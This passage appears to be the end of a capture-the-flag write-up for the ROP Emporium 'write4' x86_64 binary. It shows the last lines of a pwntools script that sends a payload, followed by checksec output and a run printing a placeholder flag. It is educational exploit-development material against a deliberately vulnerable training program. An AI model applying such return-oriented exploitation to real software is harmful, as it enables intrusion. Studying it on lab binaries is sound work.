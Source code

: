 ```python
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```

And, of course, we get our flag:

```
voidwalker@Abyss:[write4x64]** ./exploit.py
[*] '/home/voidwalker/ROPEmporium/write4x64/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/voidwalker/ROPEmporium/write4x64/write4': pid 15618
b'write4 by ROP Emporium\nx86_64\n\nGo ahead and give me the input already!\n\n>'
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```


